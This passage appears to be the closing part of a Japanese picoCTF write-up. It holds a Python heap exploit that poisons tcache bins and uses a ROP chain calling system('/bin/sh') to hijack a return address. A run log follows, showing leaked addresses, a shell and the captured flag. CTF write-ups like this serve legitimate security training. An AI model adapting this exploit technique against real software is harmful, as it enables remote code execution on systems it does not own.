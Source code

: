 ```python

# tamper the fake tcachebins controller
sock.sendafter(":[PKT_RES]\n", p64(0x22000))
sock.sendline(
    p64(0x0) + b"G" * 0x696D8 + p64(heap_base + 0x21D50)[:-1]
)  # -> fake tcachebins controller no.3

# tamper the return address
sock.sendafter(":[PKT_RES]\n", p64(0x18))
payload = p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(next(libc.search("/bin/sh")))
payload += p64(next(libc.gadget("ret;")))
payload += p64(libc.symbol("system"))
sock.sendline(p64(0x0) + b"H" * 0x18 + payload)

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to tethys.picoctf.net:50123
[+] <module>: heap base address: 0x558993106000
[+] base: New base address: 0x7fd70d34c000
[+] <module>: stack leak address: 0x7ffe36a47c98
[+] <module>: return address: 0x7ffe36a47b48
[ptrlib]$ ls
[ptrlib]$ Makefile
artifacts.tar.gz
flag.txt
hft
libc.so.6
main.c
metadata.json
profile
cat flag.txt
[ptrlib]$ picoCTF{mm4p_mm4573r_de3d190b}
```
シェルが取れ、flag.txtにflagが書かれていた。  

## picoCTF{mm4p_mm4573r_de3d190b}
